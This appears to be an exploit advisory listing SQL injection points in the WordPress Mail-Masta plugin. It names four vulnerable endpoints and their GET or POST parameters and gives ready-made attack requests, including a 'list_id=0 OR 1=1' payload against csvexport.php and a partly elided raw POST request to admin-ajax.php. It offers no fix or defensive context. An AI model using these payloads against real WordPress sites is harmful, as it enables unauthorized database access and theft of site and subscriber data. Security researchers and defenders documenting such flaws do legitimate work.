 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id

POST /wordpress/wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwordpress%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1

=========================================
